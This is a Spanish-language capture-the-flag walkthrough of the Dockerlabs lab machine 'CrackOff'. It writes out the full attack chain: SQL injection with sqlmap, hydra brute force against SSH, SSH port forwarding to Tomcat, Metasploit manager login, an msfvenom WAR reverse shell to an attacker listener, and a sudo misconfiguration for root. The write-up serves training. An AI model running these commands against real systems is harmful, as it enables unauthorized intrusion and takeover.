







🔹Máquina: CRACKOFF
📅 Publicado el | Categoría: WEB / SQLi / PRIVESC | Dificultad: Difícil
📝 Descripción
Máquina de dificultad difícil (Dockerlabs, autor d1se0) que combina una inyección SQL en un
formulario de login, cracking de credenciales por fuerza bruta contra SSH, pivoting mediante
túnel SSH hacia un servicio Tomcat expuesto solo en loopback, ejecución remota de código vía
despliegue de un WAR malicioso en el manager de Tomcat, y una escalada de privilegios final
a través de un binario mal configurado en sudoers.
🔍 Análisis inicial
Escaneo de puertos completo:
nmap -p- -Pn -sVC --min-rate 5000 172.17.0.2 -T2

Solo dos puertos abiertos:
22/tcp OpenSSH 9.6p1 Ubuntu 3ubuntu13.4
80/tcp Apache httpd 2.4.58 (Ubuntu)
Descubrimiento de directorios sobre el puerto 80:
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
Aparece /login.php, un formulario de autenticación clásico.
💣 Explotación
1) SQL Injection en login.php
Probando una inyección típica en el campo usuario, el servidor devuelve la consulta SQL construida por concatenación directa, confirmando la vulnerabilidad:
admin' OR '1'='1
Consulta SQL: SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = 'x'
Se capturó la petición con Burp Suite y se automatizó la extracción con sqlmap:

sqlmap -r request.txt --batch --dbs
available databases [4]:
[*] crackoff_db
[*] crackofftrue_db
[*] information_schema
[*] performance_schema
Enumeración de tabla y columnas, y volcado de la tabla users:
sqlmap -r request.txt --batch -D crackofftrue_db -T users -C id,username,password --dump
El dump devolvió 12 pares usuario/contraseña. Se armaron dos diccionarios
(usuarios.txt / contraseñas.txt) a partir de esas columnas para el
siguiente paso.
2) Fuerza bruta contra SSH
Las credenciales de la tabla de la aplicación web no necesariamente coinciden con las del sistema operativo, así que en vez de asumir un par fijo se corrió fuerza bruta cruzada (todos los usuarios contra todas las contraseñas) con hydra:
hydra -L usuarios.txt -P contraseñas.txt ssh://172.17.0.2 -t 4

Resultado: rosa con la contraseña que en la tabla figuraba para otro usuario
(jazmin en el dump), confirmando el reuso de credenciales entre cuentas.
ssh rosa@172.17.0.2
3) Enumeración interna y pivoting a Tomcat
Ya dentro como rosa, se revisaron los puertos internos:
netstat -punta

El patrón 8005+8080 en loopback es firma clásica de una instalación estándar de Apache Tomcat, solo accesible desde dentro de la propia máquina. Se reconectó por SSH con forwarding de puerto para exponerlo en el atacante:
ssh rosa@172.17.0.2 -L 8080:127.0.0.1:8080

4) Acceso al manager de Tomcat
El acceso directo con las credenciales reutilizadas fue rechazado (401). Se automatizó la prueba con el módulo de Metasploit para el manager de Tomcat, usando los mismos diccionarios del paso 1:
msfconsole -q
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 127.0.0.1
set RPORT 8080
set USER_FILE /home/kali/usuarios.txt
set PASS_FILE /home/kali/contraseñas.txt
run

Credenciales válidas encontradas: tomitoma:supersecurepasswordultra, con acceso
confirmado a /manager/html.
5) RCE vía WAR malicioso
Con acceso al manager se generó un payload Java empaquetado como aplicación web:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP_ATACANTE> LPORT=4444 -f war -o shell.war
Se desplegó el shell.war desde el panel del manager, se abrió listener y se
disparó el acceso a la aplicación desplegada:
nc -nlvp 4444
curl http://127.0.0.1:8080/shell/

connect to [192.168.1.212] from (UNKNOWN) [172.17.0.2] 58442
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
Tratamiento de la TTY para tener una shell interactiva completa:
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm-256color
export SHELL=bash
6) Escalada de privilegios: catalina.sh en sudoers
Revisando permisos de sudo para el usuario tomcat:
sudo -l
User tomcat may run the following commands on this host:
(ALL) NOPASSWD: /opt/tomcat/bin/catalina.sh
El binario es ejecutable como root sin contraseña, pero su dueño es el propio usuario
tomcat:
ls -la /opt/tomcat/bin/catalina.sh
-rwxr-xr-x 1 tomcat tomcat 25323 /opt/tomcat/bin/catalina.sh
sudo valida la ruta del binario, no su contenido. Al ser escribible por
tomcat, se puede reemplazar su lógica y ejecutarla con privilegios de root:
nano /opt/tomcat/bin/catalina.sh
# se agrega en una de las primeras líneas:
/bin/bash
sudo /opt/tomcat/bin/catalina.sh

whoami
root
🏆 Resultado
Acceso root confirmado, combinando cinco fallas encadenadas: SQL injection por concatenación
directa en el login, reuso de contraseñas entre la base de datos de la app y las cuentas SSH
del sistema, un servicio Tomcat expuesto solo en loopback pero alcanzable por pivoting SSH,
credenciales débiles en el manager de Tomcat que permiten RCE vía despliegue de WAR, y una
regla de sudoers mal configurada sobre un script escribible por el mismo usuario
al que se le otorgó el privilegio.
Nota: la máquina tiene además una segunda ruta de privesc documentada por otros autores,
que en vez de explotar catalina.sh pivota desde tomcat hacia los
usuarios mario y alice (credenciales filtradas en el webroot y una
base KeePass), terminando en un script /opt/alice/boss con permisos 777 corriendo
en loop como root. Ambos caminos parten del mismo punto de entrada, lo que sugiere varias
configuraciones débiles apiladas a propósito en vez de una única cadena intencionada.